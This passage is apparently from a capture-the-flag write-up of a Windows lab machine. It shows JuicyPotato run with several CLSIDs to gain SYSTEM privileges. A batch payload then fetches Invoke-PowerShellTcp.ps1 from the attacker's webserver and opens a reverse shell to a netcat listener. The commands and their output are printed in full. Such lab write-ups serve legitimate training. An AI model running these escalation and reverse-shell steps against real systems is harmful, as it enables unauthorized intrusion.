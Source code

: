                                      [02]: fe80::4ccb:aafa:2793:40a8
                                     [03]: dead:beef::ccbd:7ffa:69d9:283f
                                     [04]: dead:beef::a947:36cc:c1a8:7109
                                     [05]: dead:beef::4ccb:aafa:2793:40a8
    Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.



I can go to the [JuicyPotato
GitHub](https://github.com/ohpe/juicy-potato/tree/master/CLSID) and find
a [list of CLSIDs for Windows 10
Enterprise](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise).
I'll try a few that run as "NT AUTHORITY\\SYSTEM" until I get one to
work.



    C:\users\Destitute\appdata\local\Temp>jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}                                                                
    jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}                                                                                                      
    Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 9001
    COM -> recv failed with error: 10038

    C:\users\Destitute\appdata\local\Temp>jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}                                                                
    jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}                                                                                                      
    Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 9001
    ......
    [+] authresult 0
    {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM

    [+] CreateProcessWithTokenW OK



When it does, I get a request on my `python` webserver:



    10.10.10.116 - - [14/Jan/2019 19:13:46] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -



And then a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.116.
    Ncat: Connection from 10.10.10.116:49723.
    Windows PowerShell running as user CONCEAL$ on CONCEAL
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\Windows\system32>whoami
    nt authority\system
